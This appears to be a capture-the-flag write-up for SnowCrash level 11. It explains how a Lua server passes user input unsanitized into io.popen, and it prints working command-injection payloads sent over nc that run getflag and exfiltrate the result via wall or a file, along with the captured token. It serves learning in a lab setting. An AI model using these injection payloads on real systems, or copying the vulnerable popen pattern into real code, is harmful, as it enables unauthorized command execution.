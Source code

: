 ## Level 11

We found a single file [level11.lua](./level11.lua) containing a server accepting connections and asking for a password which will be hashed.

Issue being that it only return `Erf nope..` if we didn't input the right pass, or `Gw you dumb*` if we get the good one.

Hinting us at the fact that the hashed pass isn't what we look for.

### Exploit

```lua
  prog = io.popen("echo "..pass.." | sha1sum", "r")
```

We have control over `pass` since it's what we send to the server after the connection is made with the server.

It uses an `echo` which means that we somehow have control over something, second issue being that it returns the output of popen in a stream `prog`.

Obviously even the `print` later in the script isn't useful since it's supposed to print server side and not client side.

Now the intersting part:

We can use a wonderfull shell command named [wall](https://linuxize.com/post/wall-command-in-linux/) which will broadcast the output of the previous command to every logged user. Which is amazing since the user connected via `nc` is considered in this list.

As we saw in this test:

```bash
level11@SnowCrash:~$ nc 127.0.0.1 5151
Password: `echo lol | wall`
                                                                               
Broadcast Message from flag11@Snow                                             
        (somewhere) at 15:27 ...                                               
                                                                               
lol                                                                            
                                                                               
Erf nope..
```

When trying to echo the "lol" and piping it to `wall`. The execution of the script get broadcasted to every user connected to the machine. Moreover, the message is broadcasted as `flag11@snow` which means that it's executed as sudo (previously hinted by the `s` permissions when we used `ls -la`).

And so, here is the result:

```bash
level11@SnowCrash:~$ nc 127.0.0.1 5151
Password: `echo \`getflag\` | wall`
                                                                               
Broadcast Message from flag11@Snow                                             
        (somewhere) at 15:27 ...                                               
                                                                               
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s                      
                                                                               
Erf nope..
```

`getflag` gets executed as sudo and piped into `wall` which will broadcast the result to us and so we directly get the flag!

### Other solution

A simpler one we found later:

```bash
level11@SnowCrash:~$ nc localhost 5151
Password: `getflag > /var/crash/pass`
Erf nope..
level11@SnowCrash:~$ cat /var/crash/pass 
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```

## Flag

fa6v5ateaw21peobuub8ipe6s

